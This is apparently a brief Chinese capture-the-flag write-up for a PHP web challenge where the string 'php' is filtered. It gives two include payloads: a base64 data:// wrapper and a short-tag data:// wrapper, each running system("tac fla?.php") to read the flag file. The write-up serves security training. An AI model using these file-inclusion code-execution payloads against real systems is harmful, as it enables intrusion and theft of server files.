

# 知识点
相较于web37过滤了php
### 短标签
[https://blog.csdn.net/qq_32320151/article/details/53607616](https://blog.csdn.net/qq_32320151/article/details/53607616)
# 思路
### 方法一
```git
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhPy5waHAiKTs/Pg==
```

### 方法二 短标签
```git
?c=data://text/plain,<?= system("tac fla?.php");?>
```
